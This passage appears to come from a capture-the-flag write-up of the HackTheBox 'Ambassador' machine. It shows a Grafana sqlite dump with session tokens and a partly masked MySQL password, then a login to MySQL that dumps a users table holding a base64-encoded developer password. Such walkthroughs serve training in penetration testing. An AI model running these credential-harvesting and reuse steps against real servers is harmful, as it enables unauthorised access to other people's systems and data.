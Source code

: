 ```
9|1|33a99e879ebc5a8c12b8a324689de2c59901d873a9372443fd069297a057081d|d55f690667bd8a4c5551e72494d8e53c1aaba9a098ad4b27f79ce0239ea31c18|Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36|10.10.14.142|1|1667600916|1667600916|1667599570|1667599570|0
10|1|aabe0ff7694e6882c91be9dd32778ca976d1febd22f018eb7fc761986899e73e|196cadacd54feff1054ffd23b070690f06de85ce5a4c3e7b777bb55529c153c4|Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36|10.10.14.120|1|1667601865|1667601865|1667599638|1667599638|0
sqlite> select * from data_source;
2|1|1|mysql|mysql.yaml|proxy||dontStandSo******Me*****!|grafana|grafana|0|||0|{}|2022-09-01 22:43:03|2022-11-04 05:19:06|0|{}|1|uKewFgM4z
3|1|5|mysql|MySQL|proxy|||root|schemata|0|||0|{}|2022-11-04 22:08:10|2022-11-04 22:19:47|0|{}|0|7bWNZ7DVz
4|1|1|loki|Loki|proxy|||||0|||0|{}|2022-11-04 22:37:18|2022-11-04 22:37:18|0|{}|0|LQ2CM7DVz
```
Looks like there is a MySQL password in the data_source table. The initial nmap scan showed an accessable mysql instance.

7. Connecting to MySQL instance:
```
┌──(kali㉿kali)-[~]
└─$ mysql -u grafana -p -h ambassador.htb grafana
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 9
Server version: 8.0.30-0ubuntu0.20.04.2 (Ubuntu)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [grafana]> show databases;
+--------------------+
| Database           |
+--------------------+
| grafana            |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| whackywidget       |
+--------------------+
6 rows in set (0.075 sec)

MySQL [grafana]> use whackywidget;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [whackywidget]> show tables;
+------------------------+
| Tables_in_whackywidget |
+------------------------+
| users                  |
+------------------------+
1 row in set (0.073 sec)

MySQL [whackywidget]> select * from users;
+-----------+------------------------------------------+
| user      | pass                                     |
+-----------+------------------------------------------+
| developer | YW5FbmdsaXNoTW******ZXdZb3JrMDI3NDY4Cg== |
+-----------+------------------------------------------+
1 row in set (0.074 sec)
```